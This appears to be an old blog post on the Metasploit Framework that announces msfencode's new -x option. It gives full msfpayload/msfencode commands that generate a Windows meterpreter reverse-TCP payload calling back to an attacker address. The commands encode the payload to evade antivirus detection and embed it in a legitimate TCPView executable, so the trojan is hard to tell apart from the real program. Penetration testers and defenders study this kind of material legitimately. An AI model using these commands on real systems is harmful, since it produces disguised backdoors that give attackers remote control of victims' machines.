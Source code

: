 = 'Metasploit Blends in: New MSFPayload/ENcode'
:hp-tags: metasploit

In [Revision 7315](https://metasploit.com/redmine/projects/framework/repository/revisions/7315) of the Metasploit Framework (SVN) a new option was added to MSFENCODE. Technically you always had the ability to do the following, but it required a bit of knowledge of the inner workings of the framework.

But before I get into the new feature, lets quickly go over the standard way you use msfencode:

```
root@bt4:/pentest/exploits/framework3# ./msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.92.131 LPORT=443 R | ./msfencode -t exe -o /tmp/bob.exe       
[*] x86/shikata_ga_nai succeeded with size 318 (iteration=1) 

root@bt4:/pentest/exploits/framework3#
```

We just used MSFPAYLOAD to output in [R]AW format, a reverse tcp connect meterpreter payload. We then piped it into MSFENCODE, so that we could output it as a proper Windows executable (/tmp/bob.exe), encoded to avoid AV detection.

Now if you knew where it was (data/templates/template.exe) you could probably just replace the template.exe with the one you want loaded with the payload and called it a day. But then you wouldn’t get some of the tweaks that make this update awesome.

The update added the (-x) option to msfencode. This allows you to specify an executable of your choosing to sacrifice to the gods. For example: (TCPView)

```
root@bt4:/pentest/exploits/framework3# ./msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.92.131 LPORT=443       
R | ./msfencode -t exe -x /tmp/Tcpview.exe -o /tmp/Tcpview2.exe        
[*] x86/shikata_ga_nai succeeded with size 318 (iteration=1) 

root@bt4:/pentest/exploits/framework3#
```
And if everything went well, we have a nice new executable in /tmp/ called Tcpview2.exe. Want to know the magic part? Try to tell them apart:

![](/images/postimages/200911_msfencode_1.png)
